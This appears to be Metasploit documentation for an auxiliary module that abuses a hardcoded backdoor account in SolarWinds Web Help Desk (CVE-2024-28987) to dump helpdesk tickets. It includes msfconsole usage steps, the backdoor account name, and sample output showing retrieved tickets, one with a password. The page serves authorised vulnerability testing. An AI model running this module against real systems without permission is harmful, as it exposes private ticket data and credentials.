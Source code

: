## Vulnerable Application

This module exploits a backdoor in SolarWinds Web Help Desk <= v12.8.3 (CVE-2024-28987) to retrieve all tickets from the system.

## Testing

The software can be obtained from
[the vendor](https://downloads.solarwinds.com/solarwinds/Release/WebHelpDesk/12.8.1/WebHelpDesk-12.8.1-x64_eval.exe).

Installation instructions are available [here]
(https://documentation.solarwinds.com/en/success_center/whd/content/whd_installation_guide.htm).

**Successfully tested on**

- SolarWinds Web Help Desk v12.8.1 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/gather/solarwinds_webhelpdesk_backdoor 
msf auxiliary(gather/solarwinds_webhelpdesk_backdoor) > set RHOSTS <IP>
msf auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
```

This should return all the tickets from the Web Help Desk platform.

## Options

### TICKET_COUNT
The number of tickets to dump to the terminal.

## Scenarios

Running the exploit against Web Help Desk v12.8.1 on Windows 22H2 should result in an output similar to the following:

```
msf auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
[*] Running module against 192.168.217.145

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Authenticating with the backdoor account "helpdeskIntegrationUser"...
[+] Successfully authenticated and tickets retrieved. Displaying the first 2 tickets retrieved:
[+] [
  {
    "id": 2,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T08:54:13Z",
    "shortSubject": "Password reset",
    "shortDetail": "Hi,\r\n\r\nhere is your super secure password: foo\r\n\r\nYour IT Support",
    "displayClient": "No Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "13 hours ago",
    "latestNote": null
  },
  {
    "id": 1,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T05:15:17Z",
    "shortSubject": "Welcome to Web Help Desk",
    "shortDetail": "Congratulations! You have successfully installed Web Help Desk. Further configuration options are...",
    "displayClient": "Demo Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "17 hours ago",
    "latestNote": null
  }
]
[+] Saved 2 tickets to /home/asdf/.msf4/loot/20240926004744_default_unknown_solarwinds_webhe_825328.txt
[*] Auxiliary module execution completed
```
